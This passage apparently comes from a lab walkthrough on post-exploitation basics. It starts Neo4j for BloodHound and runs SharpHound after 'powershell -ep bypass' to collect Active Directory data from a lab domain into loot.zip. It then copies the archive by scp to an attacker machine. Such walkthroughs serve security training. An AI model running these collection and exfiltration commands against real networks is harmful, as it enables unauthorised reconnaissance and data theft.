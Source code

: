 * Let’s start neo4j so we can connect to it:

```
root@kali:~# neo4j console
Active database: graph.db
Directories in use:
  home:         /usr/share/neo4j
  config:       /usr/share/neo4j/conf
  logs:         /usr/share/neo4j/logs
  plugins:      /usr/share/neo4j/plugins
  import:       /usr/share/neo4j/import
  data:         /usr/share/neo4j/data
  certificates: /usr/share/neo4j/certificates
  run:          /usr/share/neo4j/run
Starting Neo4j.
WARNING: Max 1024 open files allowed, minimum of 40000 recommended. See the Neo4j manual.
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
2020-06-09 13:38:11.468+0000 INFO  ======== Neo4j 3.5.3 ========
2020-06-09 13:38:11.486+0000 INFO  Starting...
2020-06-09 13:38:14.076+0000 INFO  Bolt enabled on 127.0.0.1:7687.
2020-06-09 13:38:15.591+0000 INFO  Started.
2020-06-09 13:38:16.899+0000 INFO  Remote interface available at http://localhost:7474/
```

* Open a browser and go to localhost on port 7474:

![](2025-05-31-post-exploitation-basics-6.png)

* The first time we run it we have to change the password:

![](2025-05-31-post-exploitation-basics-7.png)

* Now we are at the dashboard, and Neo4j is up and running:

![](2025-05-31-post-exploitation-basics-8.png)

### Getting loot w/ SharpHound

1.) `powershell -ep bypass` same as with PowerView.

2.) `. .\Downloads\SharpHound.ps1`

3.) `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`

![](2025-05-31-post-exploitation-basics-9.png)

4.) Transfer the loot.zip folder to your Attacker Machine.

**NOTE: you can use scp to transfer the file if you’re using ssh.**

```
PS C:\Users\Administrator> scp .\20200609093439_loot.zip root@10.9.17.195:/root/loot.zip
The authenticity of host '10.9.17.195 (10.9.17.195)' can't be established.
ECDSA key fingerprint is SHA256:j2rFIhm/IhhKmKwx5YTtx70Ox8mpS+Qd8dskUOiXPD4.
Are you sure you want to continue connecting (yes/no)?
Warning: Permanently added '10.9.17.195' (ECDSA) to the list of known hosts.
root@10.9.17.195's password:
20200609093439_loot.zip
```
